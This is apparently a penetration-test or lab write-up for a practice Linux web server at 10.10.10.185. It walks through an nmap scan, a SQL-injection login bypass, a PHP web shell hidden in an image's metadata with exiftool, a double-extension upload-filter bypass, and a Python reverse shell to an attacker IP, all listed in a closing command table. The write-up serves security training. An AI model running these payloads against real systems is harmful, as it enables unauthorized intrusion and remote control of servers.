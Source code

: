 # LINUX WEB SERVER 10.10.10.185 VULNERABILITY and EXPLOITATION #

# Introduction

Penetration testing session was conducted in order to determine Linux Web Server 10.10.10.185 exposure to a targeted attack. All activities were conducted in a manner that simulated a malicious actor engaged in a targeted attack against Linux Web Server and both Victim (Linux Web Server) and Attacker (Kali) were hosted on Virtual Box.

# Methodology

##


## Reconnaissance

Conduct Nmap scan in order to find out which ports are open.

![](images/1Scan.PNG)
_Fig: 1 | Nmap scan foud open port._

![](images/2scan.PNG)
_Fig: 2 | Nmap scan foud open port._


Two ports identified after the Nmap scan,

- **22/tcp – Open SSH**

- **80/tcp – Open HTTP**

**Command used in Nmap Scan** - nmap -sC -sV -V 10.10.10.185

##

# Exploitation

After the Nmap Scan tried to find a vulnerability inside the server. Using open port tcp/80 (Open HTTP) try to brows the **10.10.10.185** server.

![](https://user-images.githubusercontent.com/31987272/81840473-af642480-9566-11ea-8bbd-cf2543159ec6.PNG)

_Fig: 3 | Home page of the server._


There is a login. Tried to bypass the login and can successfully bypass the login using SQL Injection to the password filed. In this password field vulnerable to SQL Injection.


![](https://user-images.githubusercontent.com/31987272/81840701-fd792800-9566-11ea-91d6-301f384ad4bc.PNG)

_Fig: 4 | SQL Injection to Password Field._


It&#39;s directed to the image uploading page. In this they allowed only jpg, jpeg, png image file formats.


![](https://user-images.githubusercontent.com/31987272/81840857-2d283000-9567-11ea-9e82-d06409637365.PNG)

_Fig: 5 | image uploading field._


![](https://user-images.githubusercontent.com/31987272/81841066-7b3d3380-9567-11ea-9e35-5038f8f41384.PNG)

_Fig: 6 | Allowed image formats._


Then using this upload an image step try do an exploit so that inserting a payload to the image. Using exiftool.


![](https://user-images.githubusercontent.com/31987272/81841075-7f695100-9567-11ea-8f95-c11e44ac6af6.PNG)

_Fig: 7 | Payload with image._


Then this need to run using PHP so that change the file format as _ **php.jpg** __._ This only check the last format because of the weakness of the verification so easily can upload the image.


![](images/8.PNG)

_Fig: 8 | Change the image format._


The check the location of the image which posted already in the server. Copy the location and rename the image name as _ **kalpani.php.jpg** __._ Then input the **cmd=ls** command to check whether is it working or not.


![](images/9.PNG)

_Fig: 9 | rename the file name in the location and command input._


It works. So now can execute the command in here and also can view the files in web directory.


![](images/10.PNG)

_Fig: 10 | view web directory files._


After that take the revers shell python script from pentestmonkey cheat sheet and change the python version to python3 and include the python script to location and run. After this can take the web shell.


![](images/11.PNG)

_Fig: 11 | Include the python script._

##

# Proof

**Exploitation**

![](images/12.PNG)

_Fig: 12 | Web Shell._

#


#

# Command used

| Nmap Scan | nmap -sC -sV 10.10.10.185 |
| --- | --- |
| login bypass | username = anypassword = 1&#39; or &#39;1&#39;=&#39;1 |
| bypass file upload filter URL | https://github.com/xapax/security/blob/master/bypass\_image\_upload.md |
| Image bypass command | exiftool -Comment=&#39;\&lt;?php echo &quot;\&lt;pre\&gt;&quot;; system($\_GET[&#39;cmd&#39;]); ?\&gt;&#39; kalpani.jpg |
| image file format rename | kalpani.php.jpg |
| image location, change file name and give cmd-ls to vies directory | http://10.10.10.185/images/uploads/kalpani.php.jpg?cmd=ls |
| reverse shell script to image location | http://10.10.10.185/images/uploads/test.php.jpg?cmd=python3 -c &#39;import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((&quot;10.10.14.168&quot;,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([&quot;/bin/sh&quot;,&quot;-i&quot;]);&#39; |
| listling check | nc -nlvp 1234 |
| directory list | ls |

##


# Conclusion

Even though the above evidence demonstrates that Linux web server is vulnerable. Using SQL Injection can bypass the server password fields in login page. Used pentestmonkey cheat sheet to take reverse shell python script, exiftool used to include payload in to the selected image.



